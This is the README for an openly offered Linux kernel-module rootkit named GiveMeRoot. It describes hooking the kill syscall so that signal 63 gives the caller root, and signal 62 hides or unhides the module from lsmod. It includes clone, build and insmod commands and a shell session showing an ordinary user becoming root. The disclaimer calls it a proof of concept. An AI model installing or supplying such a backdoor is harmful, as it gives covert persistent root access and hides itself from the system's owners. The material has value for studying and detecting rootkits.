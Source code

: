 # GiveMeRoot
Simple LKM rootkit based on [Diamorphine](https://github.com/m0nad/Diamorphine).

# Environment tested
 - Debian 9
 - Kernel 4.9.0-8-amd64

# How it works
Basically the rootkit hooks the syscall kill, and whenever it receives a signal 63, the process is changed to run with root permissions.

# Install
```bash
root@lkm:~/# git clone https://github.com/mthbernardes/givemeroot.git
root@lkm:~/# cd givemeroot
root@lkm:~/givemeroot# make
make -C /lib/modules/4.9.0-8-amd64/build M=/root/givemeroot modules
make[1]: Entering directory '/usr/src/linux-headers-4.9.0-8-amd64'
  Building modules, stage 2.
  MODPOST 1 modules
make[1]: Leaving directory '/usr/src/linux-headers-4.9.0-8-amd64'
root@lkm:~/givemeroot# insmod givemeroot.ko 
```

# Usage

## Grant root access
```bash
nuvm@lkm:~$ id
uid=1001(nuvm) gid=1001(nuvm) groups=1001(nuvm),100(users)
nuvm@lkm:~$ kill -63 0
nuvm@lkm:~$ id
uid=0(root) gid=0(root) groups=0(root),100(users),1001(nuvm)
```

## Hide/ Unhide module
```bash
nuvm@lkm:~$ lsmod | grep givemeroot
nuvm@lkm:~$ kill -62 0
nuvm@lkm:~$ lsmod | grep givemeroot
givemeroot             16384  0
nuvm@lkm:~$ kill -62 0
nuvm@lkm:~$ lsmod | grep givemeroot
```

# Disclaimer
Using this module might cause severe damage to your system, it was created as a proof of concept and should never be used on a production system!

By using this software the person in question agrees that they will use any of software in question in an ethical (non-malicious) way and agrees that the developer(s) are NOT held responsible for any damage caused by the use and or abuse of this software.

Misuse of any software from this website may result in criminal charges brought against the person in question depending on the country or state of residence which can result in probation, fines up or prison sentences up to 20 years in federal prison.
